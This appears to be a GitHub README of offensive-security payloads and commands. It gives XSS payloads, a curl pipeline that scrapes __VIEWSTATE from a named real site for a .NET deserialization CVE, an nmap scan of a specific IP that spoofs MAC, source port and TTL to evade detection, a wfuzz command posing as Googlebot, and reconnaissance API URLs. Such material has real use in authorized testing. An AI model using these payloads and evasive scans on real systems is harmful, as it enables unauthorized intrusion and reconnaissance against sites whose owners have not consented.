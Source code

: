 <br>
<h1 align="center"> Offensive Security MISC Anotations and Payloads</h1> <br>

<br>
<br>


# XSS
- Personally created XSS payloads <br>

<br>

## ⚠️ Danger zone! ⚠️ <br>
> Danger zone is the area which the payloads can be OR will be harmfull to a web application. <br>
> So, do no use them unless you're sure the web app will not be damaged or you're testing on a allowed enviroment! <br>
> I do NOT take any responsability to any of you who wants to test on random websites, you have been warned!

<br>

> Do not use these payloads in a random or unauthorized web site, I do not take any resposibility <br>
> to any person who decide to execute those on random places, you have been warned!

## document.write <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onerror="alert(document.write(1337))">
```
<br>

## document.domain <br>

```html
;//<!----><SCRIPT>alert(1);</SCRIPT><svg onload="alert(document.domain)">
```

<br>

# cURL .NET Deserialization object grabber
- cURL is a tool to transfer data from or to a server.
- .NET Deserialization ([CVE-2019-18935](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18935))

## Grep for __VIEWSTATE parameters in a determined url <br>

```bash
curl -v -s -k https://www.nepalipaisa.com/News.aspx | grep VIEW >> arquivo.txt
```

## Grabbing only the objects on the output file <br>

```bash
cat arquivo.txt | awk -v value="[OBJECT]>>> " '{print value$5}' | tr -d value=\" | awk '{print $2}' | sed 'G'
```

<br>

<hr>

<br>

# Tools

# Nmap Ultimate Scan v1 ([man](https://man7.org/linux/man-pages/man1/nmap.1.html))
- Nmap is a network discovery and security auditing.
- It can also be used for web application.
- Replace the API-KEY with your [Shodan](https://www.shodan.io) API Key

```sh
sudo nmap --randomize-hosts -Pn 185.28.21.231 --script shodan-api --script-args shodan-api.apikey=API-KEY -v -sS --open --reason --ttl=128 -sV --top-ports=20 --min-rate=2000 -T3  --spoof-mac=google -g443 --script="not intrusive" -oN resultados.txt
```

## Explanation:
```markdown
--randomize-hosts        :: Tells Nmap to shuffle each group of up to 16384 hosts before it scans them.
-Pn                      :: Skips the host discovery stage altogether.
--script *               :: Invoking the script to Shodan API.
-v                       :: Verbose mode.
-sS                      :: TCP SYN scan.
--open                   :: Show open ports.
--reason                 :: Shows the reason each port is set to a specific state and the reason each host is up or down.
--ttl=128                :: Tricks the Target/Firewalls of thinking the user is scanning using Windows OS.
-sV                      :: -sS added with -sV means that in case a port doesn't respond with SYN/ACK, Nmap will close the conection with RST.
--top-ports=20           :: Scan 20 most common ports (Can be set to any number).
--min-rate=2000          :: Send packets no slower than 2000 per second.
-T3                      :: Timing template set to polite.
--spoof-mac=google       :: Spoof MAC address.
-g443                    :: Spoof source port number.
--script="not intrusive" :: Loads every script except for those in the intrusive category.
-oN                      :: Output the results to a file named resultados.txt
```

<br>

# wFuzz ([man](https://www.kali.org/tools/wfuzz/))
- wFuzz is a web application fuzzing tool <br>

<br>

##  Ultimate wFuzz command v1 <br>

```sh
sudo wfuzz --hc 404,400,302,301 -u https://site.com/FUZZ -w WORDLIST.txt -H "User-Agent: Googlebot-News" -t 50
```

<br>

<hr>

<br>

# APIs
- Apis for any kinds of target reconnaissance.
- Can be also used with cURL for automatic tool making
- Switch the URL with your target's domain or ip.

<br>

## DNS Look up <br>

> https://api.hackertarget.com/dnslookup/?q=URL <br>
> https://api.threatminer.org/v2/domain.php?q=URL&rt=5

<br>

## HTTP Headers <br>

> https://api.hackertarget.com/httpheaders/?q=URL

<br>

## Host Search <br>

> https://api.hackertarget.com/hostsearch/?q=URL

<br>

## Crawlers <br>
- Alien Vault limit parameter can be set to any integer number,
- as well as the page parameter.
- Common Crawl outputs with json format.

> https://otx.alienvault.com/api/v1/indicators/hostname/URL/url_list?limit=50&page=1 <br>
> https://index.commoncrawl.org/CC-MAIN-2021-43-index?url=URL&output=json

<br>
<br>
<br>
<br>
<hr>


#### Credits: <br>

> [Me](github.com/rodricbr)               :: Creator of this directory and 80% of the payloads/commands

> [NobodyKnows](github.com/almostfamous2) :: Base creator of the [Nmap command](https://github.com/RodricBr/OffSec-MISC/blob/main/README.md#nmap-ultimate-scan-v1-man)


